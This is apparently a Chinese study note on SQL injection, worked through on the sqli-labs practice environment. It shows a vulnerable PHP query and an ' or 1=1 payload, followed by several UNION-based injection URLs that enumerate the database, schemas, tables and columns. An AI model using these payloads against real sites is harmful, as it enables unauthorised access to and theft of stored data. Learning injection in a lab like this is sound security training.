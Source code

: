 ```yaml
---
title: "2_6SQL注入"
date: 2020-03-11
tag: "sql注入 sqli-labs" 
---
```


> SQL注入

##### SQL注入原理

    $sql="SELECT *  FROM users WHERE id='$id' LIMIT 0,1";
    // ?id= 后面输入 ' or 1=1 --+(mysql注释)
    SELECT * FROM users WHERE id='' or 1=1 -- LIMIT 0,1

##### sqli-labs

    http://localhost/sqli-labs-master/Less-1/?id=1 or 1=1。

    http://localhost/sqli-labs-master/Less-1/?id=1' order by 3 --+

    http://localhost/sqli-labs-master/Less-1/?id=' union select 1,database(),user() --+。

    http://localhost/sqli-labs-master/Less-1/?id=' union select 1,2,(SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata)--+

    http://localhost/sqli-labs-master/Less-1/?id=' UNION SELECT 1,2,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='test') --+

    http://localhost/sqli-labs-master/Less-1/?id=' UNION SELECT 1,2,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='test') --+


[sqli-lab详解——做题笔记1-10](https://blog.csdn.net/Dream__Catcher/article/details/82964394)

[11种常见SQLMAP使用方法详解](https://www.cnblogs.com/ichunqiu/p/5805108.html)

##### SQLmap
